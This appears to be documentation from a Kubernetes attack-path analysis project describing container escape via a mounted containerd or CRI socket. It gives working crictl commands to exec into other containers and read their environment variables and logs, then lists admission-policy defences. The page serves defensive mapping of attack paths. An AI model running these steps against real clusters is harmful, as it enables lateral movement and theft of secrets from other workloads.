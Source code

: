 # EXPLOIT_CONTAINERD_SOCK

Container escape via the `containerd.sock` file that allows executing a binary into another container.

| Source                                    | Destination                           | MITRE                            |
| ----------------------------------------- | ------------------------------------- |----------------------------------|
| [Container](../vertices/CONTAINER.md)  | [Container](../vertices/CONTAINER.md) | [Lateral Movement, TA0008](https://attack.mitre.org/tactics/TA0008/)  |

## Details

When the `containerd.sock` (or other equivalent - see the list below) is mounted inside a container, it allows the container to interact with container runtime. Therefore an attacker can execute any command in any container present in the cluster. This allows an attacker to do some lateral movement across the cluster. 

## Prerequisites

Execution within a container process with the following unix socket being (or any parent directory) being mounted inside the container:

```bash
unix:///var/run/dockershim.sock
unix:///run/containerd/containerd.sock
unix:///run/crio/crio.sock
unix:///var/run/cri-dockerd.sock
```

See the [example pod spec](../../test/setup/test-cluster/attacks/EXPLOIT_CONTAINERD_SOCK.yaml).

## Checks

Look for any socket being mounted in the container by running a simple find command:

```bash
find / -name dockershim.sock -o -name containerd.sock -o -name crio.sock -o -name cri-dockerd.sock  2>/dev/null
```

## Exploitation

To exploit this vulnerability, we will use a CLI for Kubelet Container Runtime Interface (CRI) provided by Google for debugging purposes:  crictl.

```bash
apt update && apt install -f wget tar
wget https://github.com/kubernetes-sigs/cri-tools/releases/download/v1.27.0/crictl-v1.27.0-linux-amd64.tar.gz -O /tmp/crictl.tar.gz
tar xvf /tmp/crictl.tar.gz -C /tmp
```

This tools allows to interact with Kubernetes using a unix socket:

```bash
unix:///var/run/dockershim.sock
unix:///run/containerd/containerd.sock
unix:///run/crio/crio.sock
unix:///var/run/cri-dockerd.sock
```

Once you have the path for the mounted socket, configure `crictl` to use it:

```bash
MOUNTED_SOCK_PATH=/host/run/containerd/containerd.sock 
echo "runtime-endpoint: unix://${MOUNTED_SOCK_PATH}
image-endpoint: unix://${MOUNTED_SOCK_PATH}
debug: false" > /tmp/crictl.yaml && alias cc='/tmp/crictl --config /tmp/crictl.yaml'
```

Once everything is configured, you should be able to run command on another container of your choice.

To list all the pods: 

```bash
cc ps -a
```

Executing a command on another pod:

```bash
cc exec -s 05c862f55a017 hostname
``` 

### Notes

The `-s` is important otherwise, `crictl` will try to use the http endpoint to run the command, resulting in errors like:

```bash
FATA[0000] execing command in container: error sending request: Post "http://127.0.0.1:41903/exec/PUpJoUv0": dial tcp 127.0.0.1:41903: connect: connection refused
```

With crictl you can also access sensitive information:
+ `crictl inspect`: access env variable from any container
+ `crictl logs`: retrieve all the logs from any container

## Defences

### Implement security policies

Use a pod security policy or admission controller to prevent or limit the creation of pods with a `hostPath` mount for the following locations:

```bash
/var/run/dockershim.sock
/run/containerd/containerd.sock
/run/crio/crio.sock
/var/run/cri-dockerd.sock
```

## Calculation

+ [ExploitContainerdSock](../../pkg/kubehound/graph/edge/exploit_containerd_sock.go)

## References:

+ [CRICTL GitHub](https://github.com/kubernetes-sigs/cri-tools/blob/419e153f330a5f6175aa9b6a03b339080c58ca3e/docs/crictl.md)
+ [Debugging Kubernetes nodes with crictl](https://kubernetes.io/docs/tasks/debug/debug-cluster/crictl/)
